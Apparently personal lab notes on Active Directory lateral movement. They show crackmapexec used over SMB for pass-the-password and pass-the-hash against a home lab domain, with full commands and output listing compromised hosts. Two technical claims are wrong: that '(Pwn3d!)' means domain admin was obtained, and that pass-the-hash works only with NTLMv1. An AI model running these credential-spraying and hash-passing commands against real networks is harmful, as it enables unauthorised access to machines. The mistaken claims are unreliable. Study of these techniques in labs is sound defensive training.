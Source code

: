 We are going to use the `crackmapexec` tool to perform the attack using the SMB protocol. However, this can be done via other protocols as well.

```bash
$ crackmapexec --help                                                                                                                          
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL] [--darrell] [--verbose] {ssh,smb,winrm,ldap,ftp,mssql,rdp} ...

options:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {ssh,smb,winrm,ldap,ftp,mssql,rdp}
    ssh                 own stuff using SSH
    smb                 own stuff using SMB
    winrm               own stuff using WINRM
    ldap                own stuff using LDAP
    ftp                 own stuff using FTP
    mssql               own stuff using MSSQL
    rdp                 own stuff using RDP
```

## Pass the Password

Once we have compromised the credentials of one user, we can use them to sweep the network using it.

```bash
$ crackmapexec smb 192.168.23.0/24 -u fcastle -d MARVEL.local -p Password1                                                                
SMB         192.168.23.132  445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.23.130  445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         192.168.23.131  445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         192.168.23.132  445    SPIDERMAN        [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         192.168.23.130  445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         192.168.23.131  445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```

From the `[+]` symbol, we can determine which accounts we were able to login to using the password. The `(Pwn3d!)` indicates which machines we were able to get domain admin in. 

## Pass the Hash

This attack only work with [[New Technology LAN Manager|NTLMv1]] hashes, not with v2. The command to perform the attack is the following.

```bash
$ crackmapexec smb 192.168.23.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
SMB         192.168.23.1    445    LENOVO-M75Q      [*] Windows 10.0 Build 26100 x64 (name:LENOVO-M75Q) (domain:LENOVO-M75Q) (signing:True) (SMBv1:False)
SMB         192.168.23.1    445    LENOVO-M75Q      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         192.168.23.131  445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         192.168.23.130  445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         192.168.23.132  445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         192.168.23.131  445    THEPUNISHER      [+] THEPUNISHER\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         192.168.23.130  445    HYDRA-DC         [-] HYDRA-DC\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         192.168.23.132  445    SPIDERMAN        [+] SPIDERMAN\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
```

We see that we are successful in compromising the local administrator of the same two machines. This is a common scenario that can be seen in an enterprise network as well. 

The common thing to do when creating a network is for the SysAdmin to *use the same local administrator password in every single machine* in the network. Even this is a really strong password it does not matter since we do not need to crack is. Just passing it around works.


